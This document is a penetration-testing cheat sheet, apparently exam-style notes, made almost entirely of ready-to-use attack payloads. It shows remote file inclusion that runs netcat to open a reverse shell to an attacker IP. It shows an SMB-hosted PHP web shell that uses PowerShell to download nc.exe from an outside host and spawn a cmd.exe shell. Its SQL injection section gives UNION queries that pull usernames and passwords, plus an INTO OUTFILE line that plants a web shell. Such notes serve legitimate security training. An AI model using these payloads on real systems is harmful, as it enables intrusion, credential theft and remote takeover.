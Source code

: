 ```
http://10.11.1.111/addguestbook.php?LANG=http://10.11.1.111:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://10.11.1.111/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
	<?php echo shell_exec($_GET['cmd']);?>
- Start SMB Server in attacker machine and put evil script
- Access it via browser (2 request attack):
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```

### SQL-Injection

```
# References
https://portswigger.net/web-security/sql-injection
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://www.exploit-db.com/papers/17934
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://pentestwiki.org/sql-injection/ 
https://www.tarlogic.com/blog/red-team-tales-0x01/

# Enumeration

' ORDER BY 1--      #Increase the number to determine the number of columns
' UNION SELECT NULL,NULL,NULL--   #Confirm the "Order by" statement 
' UNION SELECT NULL,NULL,'a',NULL-- #Define string/numerical data

# Database Attacks
'+UNION+SELECT+@@version,+NULL#
SELECT * FROM information_schema.tables

SHOW GRANTS;  #Get current user permissions

SHOW VARIABLES; #Get variables related to the environment

select @@hostname, @@tmpdir, @@version, @@version_compile_machine, @@plugin_dir; #MySQL database enumeration query

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--  #List Tables

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--  #List Columns

'+UNION+SELECT+username,+password+FROM+users--    #Get Username & Password

'+UNION+SELECT+NULL,username||'~'||password+FROM+users--     #Concatenation for multiple vaules

# SQL Web Shell
'UNION SELECT "<?php echo passthru($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/command.php'>) #MedJed

# Blind Enumeration (https://auspisec.com/blog/20220118/proving_grounds_butch_walkthrough.html)
```